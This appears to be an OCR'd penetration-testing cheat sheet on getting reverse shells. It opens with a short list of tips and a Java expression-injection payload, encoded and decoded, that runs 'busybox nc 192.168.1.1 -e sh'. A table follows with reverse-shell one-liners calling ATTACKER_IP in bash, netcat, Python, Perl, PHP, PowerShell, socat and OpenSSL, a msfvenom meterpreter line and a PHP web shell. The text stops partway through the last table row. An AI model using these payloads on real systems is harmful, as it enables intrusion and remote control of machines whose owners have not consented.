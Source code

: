 4 Rules when trying to get Reverse Shell

- Is your payload correct? busy box?

- Is your port correct?

- If you can't execute shell via 1 liner. Write reverse shell file to file system then execute.

- what kind of web technology running -> what kind of reverse shell needed

- 

Encoded:search?query="%24{script%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec('busybox nc 192.168.1.1 -e sh')}"
Decoded:search?query="${script:javascript:java.lang.Runtime.getRuntime().exec('busybox nc 192.168.1.1 -e sh')}"


| **Type**           | **Example Payload**                                                                                     | **When to Use**                                                        | **How to Know You Can Use It**                                                  |
|--------------------|----------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------|----------------------------------------------------------------------------------|
| **Bash**           | `bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1`                                                              | When target has bash and can access your IP/port over TCP              | `which bash` or `echo $0` shows bash; target OS is full Linux                   |
| **sh (BusyBox)**   | `sh -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1`                                                                | On minimal systems (e.g., Alpine, embedded) using BusyBox              | `which sh` or `which busybox`; often default shell in containers                |
| **Netcat (nc)**    | `nc -e /bin/sh ATTACKER_IP PORT`                                                                         | When Netcat with `-e` support is available                             | `nc -h` includes `-e`; or run `which nc`, `nc --version`                        |
| **Netcat (no -e)** | ``rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP PORT > /tmp/f``               | If Netcat exists but `-e` is disabled                                           | `nc -h` shows no `-e`; use fallback chaining with FIFO                          |
| **Python**         | `python -c 'import socket,subprocess,os; s=socket.socket(); ...'`                                        | If Python is installed                                                 | `which python` or `python --version`; supports TTY spawning                     |
| **Perl**           | `perl -e 'use Socket;$i="ATTACKER_IP";$p=PORT;...exec("/bin/sh -i");'`                                   | Legacy systems with Perl                                               | `which perl`; check Perl installed                                              |
| **PHP**            | `php -r '$sock=fsockopen("ATTACKER_IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'`                         | If you have RCE via PHP or a web shell                                 | `which php`; check web server stack                                             |
| **PowerShell**     | `powershell -c "$client = New-Object Net.Sockets.TCPClient(...)"`                                        | On Windows targets with PowerShell                                     | PowerShell is available; RCE via CMD injection or Win web server                |
| **Socat**          | `socat TCP:ATTACKER_IP:PORT EXEC:/bin/bash,pty,stderr,setsid,sigint,sane`                               | If Socat is installed, for fully interactive shells or TLS             | `which socat`; great for persistent backconnects and stable TTY                 |
| **OpenSSL**        | `sh -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1` piped through `openssl s_client ...`                          | When Socat is unavailable but OpenSSL exists for encrypted connection  | `which openssl`; needs listener with cert (`openssl s_server`)                 |
| **Java RCE**       | `${script:javascript:Runtime.getRuntime().exec("nc ...")}`                                               | Log4Shell, Struts2, or Expression Language injection                   | Detect Java injection; test with `${script:javascript:Runtime.getRuntime().exec("id")}` |
| **JSP Reverse Shell** | Upload JSP file that calls `Runtime.getRuntime().exec(...)`                                          | If you can upload/trigger a JSP file on a Tomcat or JSP server         | You control upload, or find `.jsp` endpoint                                     |
| **Meterpreter**    | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=...`                                                | For post-exploitation or persistent C2 access via Metasploit           | You can upload & execute ELF/EXE; listener set up in Metasploit                 |
| **Go Reverse Shell** | Custom Go binary that connects back and spawns shell                                                  | When Go is allowed (rare), or you can upload your own static binary    | Compile locally (`go build`) and upload; use if no scripting language on target |
| **Web Shells**     | PHP: `<?php system($_GET['cmd']); ?>` or ASPX/JSP     
